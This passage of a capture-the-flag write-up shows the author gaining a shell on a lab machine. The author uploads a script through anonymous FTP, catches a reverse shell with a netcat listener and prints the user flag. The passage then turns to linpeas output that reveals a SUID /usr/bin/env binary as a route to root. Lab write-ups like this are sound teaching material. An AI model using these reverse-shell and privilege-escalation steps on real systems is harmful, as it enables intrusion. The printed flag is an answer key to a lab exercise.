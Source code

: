 ```bash
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd scripts
250 Directory successfully changed.
ftp> put clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
54 bytes sent in 0.00 secs (811.2981 kB/s)
```
```bash
$ nc -lvnp 4444                     
listening on [any] 4444 ...
connect to [10.6.58.124] from (UNKNOWN) [10.10.11.38] 34728
bash: cannot set terminal process group (1245): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ 
```
Magic, we have a shell on the server. Now let's find the flag. 
```bash
namelessone@anonymous:~$ ls
pics
user.txt
namelessone@anonymous:~$ cat user.txt
90d6f992585815ff991e68748c414740
```
#### `Answer : 90d6f992585815ff991e68748c414740`

### root.txt
To get the root flag we need to elevate our privileges. For that I uploaded the script [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to the machine and I executed it. While digging into the result of the script I came across this.
```bash
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
strings Not Found

[...]

-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device (Unknown SUID binary)
-rwsr-xr-x 1 root root 427K Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 59K Mar 22  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_
8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 35K Jan 18  2018 /usr/bin/env
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newuidmap
```
We are not supposed to find the command "/usr/bin/env" here. With the SUID it has the power to change our uid to "root" so let's try to exploit that.